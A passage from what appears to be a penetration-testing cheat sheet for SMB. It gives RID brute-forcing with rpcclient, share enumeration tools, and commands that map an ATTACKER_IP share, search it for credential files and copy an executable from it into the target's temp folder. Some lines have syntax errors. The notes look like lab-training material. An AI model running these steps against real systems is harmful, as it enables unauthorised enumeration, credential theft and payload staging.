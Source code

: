 ```
# Brute force RIDs
cme smb --rid-brute
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
```
  - **impacket-samrdump** $TARGET
  - **smbmap** -H $TARGET
  - **[enum4linux](https://github.com/cddmp/enum4linux-ng)**

- Transfer files
  - On attacking maching
    - smbserver.py share .
    - smbserver.py -smb2support -username USER -password PASS share /path/to/share/local
  - On target
    - net use \\AttackingIP\share
    - net use x: \\IP\share /user:USER PASS = send to drive X:
    - copy \\IP\\share\file.ext = fetch file
    - pushd \\IP\\share\
    - smbclient -U USER '//IP/folder'
    - put file.name
    - smbclient -c 'put pat.exe' -U USER -W ZA '//TARGET' PASSWORD

- Use impacket
```
# create server with password
smbserver.py -smb2support -username USER -password PASS share /path/to/share/local

# Connect to the SMB server
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
net use n: \\ATTACKER_IP\share /USER:user s3cureP@ssword 
dir n: /a-d /s /b | find /c ":\\"= not directories, bare format | count
dir n:\*cred* /s /b
# Powershell
## Create object credential
$username = 'plaintext'
$password = 'Password123'
pass = convertto-securestring $password -asplain -force
# Option 1
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
# Option 2
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\Attacker\share" -PSProvider "FileSystem" -Credential $cred
New-PSDrive -Name "N" -Root "\\ATTACKER_IP\share -PSProvider "FileSystem"
# retrieve the files on the share
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
# Disconnect server
net use \\ATTACKER_IP\share /del
```

- **enum4linux**
- [SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

